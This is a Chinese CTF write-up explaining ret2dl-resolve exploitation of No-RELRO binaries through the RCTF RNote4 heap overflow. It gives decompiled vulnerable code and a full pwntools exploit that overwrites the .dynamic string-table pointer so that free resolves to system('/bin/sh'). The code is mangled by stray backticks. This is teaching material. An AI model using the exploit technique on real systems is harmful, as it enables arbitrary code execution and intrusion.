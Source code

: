 # 0x02 ret2dl-resolve 利用

那么，这个怎么去利用呢，有两种利用方式

## 改写.dynamic的DT_STRTAB

这个只有在checksec时`No RELRO`可行，即`.dynamic`可写。因为`ret2dl-resolve`会从`.dynamic`里面拿`.dynstr`字符串表的指针，然后加上offset取得函数名并且在动态链接库中搜索这个函数名，然后调用。而假如说我们能够**改写**这个指针到一块我们能够操纵的内存空间，当resolve的时候，就能resolve成我们所指定的任意库函数。比方说，原本是一个`free`函数，我们就把原本是`free`字符串的那个偏移位置设为`system`字符串，**第一次**调用`free("bin/sh")`（因为只有第一次才会resolve），就等于调用了`system("/bin/sh")`。

例题就是RCTF的RNote4，题目是一道堆溢出，`NO RELRO`而且`NO PIE`溢出到后面的指针可以实现任意地址写。

```c
`unsigned __int64 edit()``{``  ``unsigned __int8 a1; ``/``/` `[rsp``+``Eh] [rbp``-``12h``]``  ``unsigned __int8 size; ``/``/` `[rsp``+``Fh] [rbp``-``11h``]``  ``note ``*``v3; ``/``/` `[rsp``+``10h``] [rbp``-``10h``]``  ``unsigned __int64 v4; ``/``/` `[rsp``+``18h``] [rbp``-``8h``]` `  ``v4 ``=` `__readfsqword(``0x28u``);``  ``a1 ``=` `0``;``  ``read_buf((char ``*``)&a1, ``1u``);``  ``if` `( !notes[a1] )``    ``exit(``-``1``);``  ``v3 ``=` `notes[a1];``  ``size ``=` `0``;``  ``read_buf((char ``*``)&size, ``1u``);``  ``read_buf(v3``-``>buf, size);                      ``/``/` `heap overflow堆溢出``  ``return` `__readfsqword(``0x28u``) ^ v4;``}` `unsigned __int64 add()``{``  ``unsigned __int8 size; ``/``/` `[rsp``+``Bh] [rbp``-``15h``]``  ``int` `i; ``/``/` `[rsp``+``Ch] [rbp``-``14h``]``  ``note ``*``v3; ``/``/` `[rsp``+``10h``] [rbp``-``10h``]``  ``unsigned __int64 v4; ``/``/` `[rsp``+``18h``] [rbp``-``8h``]` `  ``v4 ``=` `__readfsqword(``0x28u``);``  ``if` `( number > ``32` `)``    ``exit(``-``1``);``  ``size ``=` `0``;``  ``v3 ``=` `(note ``*``)calloc(``0x10uLL``, ``1uLL``);``  ``if` `( !v3 )``    ``exit(``-``1``);``  ``read_buf((char ``*``)&size, ``1u``);``  ``if` `( !size )``    ``exit(``-``1``);``  ``v3``-``>buf ``=` `(char ``*``)calloc(size, ``1uLL``); ``/``/``堆中存放了指针，所以可以通过这个任意写``  ``if` `( !v3``-``>buf )``    ``exit(``-``1``);``  ``read_buf(v3``-``>buf, size);``  ``v3``-``>size ``=` `size;``  ``for` `( i ``=` `0``; i <``=` `31` `&& notes[i]; ``+``+``i )``    ``;``  ``notes[i] ``=` `v3;``  ``+``+``number;``  ``return` `__readfsqword(``0x28u``) ^ v4;``}`
```

所以呢，可以先add两个note，然后编辑第一个note使得堆溢出到第二个note的指针，然后再修改第二个note，实现任意写。至于写什么，刚刚也说了，先写`.dynamic`指向字符串表的指针，使其指向一块可写内存，比如`.bss`，然后再写这块内存，使得相应偏移出刚好有个`system\x00`。exp如下

```c
`from` `pwn ``import` `*` `g_local``=``True``#e=ELF('./libc.so.6')``#context.log_level='debug'``if` `g_local:``    ``sh ``=``process(``'./RNote4'``)``#env={'LD_PRELOAD':'./libc.so.6'}``    ``gdb.attach(sh)``else``:``    ``sh ``=` `remote(``"rnote4.2018.teamrois.cn"``, ``6767``)` `def` `add(content):``    ``assert` `len``(content) < ``256``    ``sh.send(``"\x01"``)``    ``sh.send(``chr``(``len``(content)))``    ``sh.send(content)` `def` `edit(idx, content):``    ``assert` `idx < ``32` `and` `len``(content) < ``256``    ``sh.send(``"\x02"``)``    ``sh.send(``chr``(idx))``    ``sh.send(``chr``(``len``(content)))``    ``sh.send(content)` `def` `delete(idx):``    ``assert` `idx < ``32``    ``sh.send(``"\x03"``)``    ``sh.send(``chr``(idx))` `#伪造的字符串表，(0x457-0x3f8)刚好是"free\x00"字符串的偏移``payload ``=` `"C"` `*` `(``0x457``-``0x3f8``) ``+` `"system\x00"``#先新建两个notes``add(``"/bin/sh\x00"` `+` `"A"` `*` `0x10``)``add(``"/bin/sh\x00"` `+` `"B"` `*` `0x10``)``#溢出时尽量保证堆块不被破坏，不过这里不会再做堆的操作了其实也无所谓``edit(``0``, ``"/bin/sh\x00"` `+` `"A"` `*` `0x10` `+` `p64(``33``) ``+` `p64(``0x18``) ``+` `p64(``0x601EB0``))``#将0x601EB0，即.dynamic的字符串表指针，写成0x6020C8``edit(``1``, p64(``0x6020C8``))` `edit(``0``, ``"/bin/sh\x00"` `+` `"A"` `*` `0x10` `+` `p64(``33``) ``+` `p64(``0x18``) ``+` `p64(``0x6020C8``))``#在0x6020C8处写入伪造的字符串表``edit(``1``, payload)` `#会第一次调用free，所以实际上是system("/bin/sh")被调用，如前面所说``delete(``0``)``sh.interactive()`
```
